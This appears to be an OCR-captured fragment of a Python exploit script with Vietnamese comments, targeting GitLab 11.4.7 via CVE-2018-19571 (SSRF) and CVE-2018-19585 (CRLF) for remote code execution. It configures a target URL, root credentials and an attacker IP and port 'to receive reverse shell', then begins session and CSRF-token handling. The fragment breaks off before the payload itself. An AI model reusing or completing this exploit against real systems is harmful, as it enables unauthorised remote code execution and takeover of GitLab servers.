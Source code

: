 import time

import random

import string

import urllib.parse

print(\"\[+\] GitLab 11.4.7 SSRF + CRLF RCE Exploit\")

print(\"\[+\] CVE-2018-19571 + CVE-2018-19585\")

\# Cấu hình

gitlab_url = \"http://gitlab.local:8080\"

username = \"root\"

password = \"vohoangphat\"

lhost = \"192.168.1.40\" \# IP máy của bạn để nhận reverse shell

lport = \"4444\"

\# Khởi tạo session

session = requests.Session()

def get_random_name():

\"\"\"Tạo tên project ngẫu nhiên\"\"\"

return \'\'.join(random.choices(string.ascii_lowercase, k=8))

def get_csrf_token():

try:

print(\"\[+\] Đang lấy CSRF token\...\")

response = session.get(f\"{gitlab_url}/users/sign_in\")

if response.status_code != 200:

print(f\"\[-\] Không thể truy cập trang đăng nhập:
{response.status_code}\")

sys.exit(1)

soup = BeautifulSoup(response.text, \"html.parser\")

token = soup.find(\'meta\', {\'name\': \'csrf-token\'})

if token:

token_value = token.get(\"content\")

print(f\"\[+\] CSRF Token: {token_value}\")

return token_value

else:

print(\"\[-\] Không thể tìm thấy CSRF token\")
